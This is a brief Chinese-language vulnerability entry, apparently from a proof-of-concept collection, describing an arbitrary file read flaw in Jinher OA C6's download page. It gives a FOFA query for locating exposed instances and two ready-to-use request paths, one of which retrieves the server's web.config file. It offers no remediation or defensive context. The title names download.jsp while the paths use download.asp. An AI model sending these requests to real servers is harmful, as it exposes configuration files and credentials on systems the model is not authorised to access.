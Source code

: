 ## 金和OA-C6-download.jsp任意文件读取漏洞

金和OA C6 download.jsp文件存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器中的敏感信息

## fofa

```
app="Jinher-OA"
```

## poc

```
/C6/Jhsoft.Web.module/testbill/dj/download.asp?filename=download.asp
/C6/Jhsoft.Web.module/testbill/dj/download.asp?filename=/c6/web.config
```

![image-20240609162635854](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202406091626910.png)